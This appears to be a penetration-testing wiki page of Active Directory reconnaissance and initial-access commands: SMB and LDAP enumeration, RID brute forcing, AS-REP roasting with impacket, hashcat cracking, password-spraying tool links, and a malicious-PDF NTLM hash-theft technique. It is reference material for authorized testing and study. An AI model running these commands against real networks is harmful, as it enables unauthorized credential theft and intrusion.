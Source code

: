 ```yaml
---
layout: wiki
title: Reconnaissance and Initial Access
cate1: Internals
cate2: Step 1
description: Reconnaissance and Initial Access
keywords: Internals
---
```


# Reconnaissance

## OSINT
Generate Active Domain username conventions
  - [generate-ad-username](https://github.com/w0Tx/generate-ad-username)

## SMB Enumeration
**Nmap**

```
nmap --script smb-vuln* -p 139,445 [ip]
```

**Netexec**
```
## List Shares - Null session
netexec smb [host/ip] -u [user] -p [pass] --shares

## List Shares - Guest session
netexec smb [host/ip] -u guest -p '' --shares

## Spider Module through files
netexec smb -u [user] -p [pass] -M spider_plus
```

**Enum4linux**

```
enum4linux -a -u "" -p "" <DC IP>
enum4linux -a -u "guest" -p "" <DC IP>
```

**Smbclient**
```
smbclient -N -L //[ip]
smbclient //[ip]/[share name] -U [username] [password]
```

**Additional Resources**
  - [SMB - Share Enumeration Cheat Sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
  - [BIWasp/NetExec cheat sheet](https://github.com/BlWasp/NetExec-Cheatsheet)
  - [SMB Enumeration cheat sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
  - [CrackMapExec + NetExec cheat sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)

## Rid Brute via SMB
**[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**

*Credits to 0xdf located [here](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)*

Every Windows object (including users and groups) has a security identifier or SID. The SID is a unique ID that contains a bunch of information about the domain configuration, and might look something like `S-1-5-21-1004336348-1177238915-682003330-512`.

Within a domain or stand-alone host, the entire SID except the last number will be the same, and the last number is the relative identifier, or RID. These values fall in a predictable range, and thus, we can brute force the numbers across that range and get a list of users and groups.

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
## Using Netexec
nxc smb [IP] -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/[DOMAIN]\\//' > users.txt

## Using rpcclient
rpcclient [IP] -U 'guest%'
lookupnames administrator
lookupsids S-1-5-21-622327497-3269355298-2248959698-[RID_value]

## Using Impacket
lookupsid.py guest@[IP] -no-pass

## ASrep Hashes via Username Enumeration
GetNPUsers.py [DOMAIN]/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

## LDAP Enumeration
**Nmap**

```
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

**LDAPSearch**

```
ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts (Domain Contexts)
ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)' (Search Users)
ldapsearch -H ldap://192.168.110.55 -x -D "web_svc@painters.htb" -W -b "dc=painters,dc=htb" "(msDS-AllowedToDelegateTo=*)" msDS-AllowedToDelegateTo (Constrained Delegation)
```

**Additional resources**
  - [LDAPSearch Enumeration](https://notes.benheater.com/books/active-directory/page/ldapsearch)
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)
  - [LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

## Poisoning and Relay
Refer to [Poisoning and Relay](https://qwutony.github.io/wiki/003-3-Poisoning-And-Relay/)

## Web Application Vulnerabilities
**Bad PDF**
Bad-PDF create malicious PDF file to steal NTLM(NTLMv1/NTLMv2) Hashes from windows machines, it utilize vulnerability disclosed by checkpoint team to create the malicious PDF file. Bad-Pdf reads the NTLM hashes using Responder listener.

**Additional Resources**
  - [Malicious PDF](https://github.com/jonaslejon/malicious-pdf)
  - [Bad PDF](https://github.com/deepzec/Bad-Pdf)
  - [Bad PDF Checkpoint Research](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

## Integrated DNS Dump
**[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)**

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

------------------------------------------------------------------

# Initial Access

## Password Spraying
**[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)**
  - Checks badpwdcount attribute only in the domain policy

**Additional Resources**
  - [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
  - [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
  - [Spray](https://github.com/Greenwolf/Spray)
  - [Hashcat Wordlists - InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)

## ASREPRoasting
**[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)**

ASREPRoast is a security attack that exploits users who lack the Kerberos pre-authentication required attribute. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

**Targets:** If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted blob and bruteforce it offline.

```
## Request AS_REP message
python GetNPUsers.py [Domain]/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```
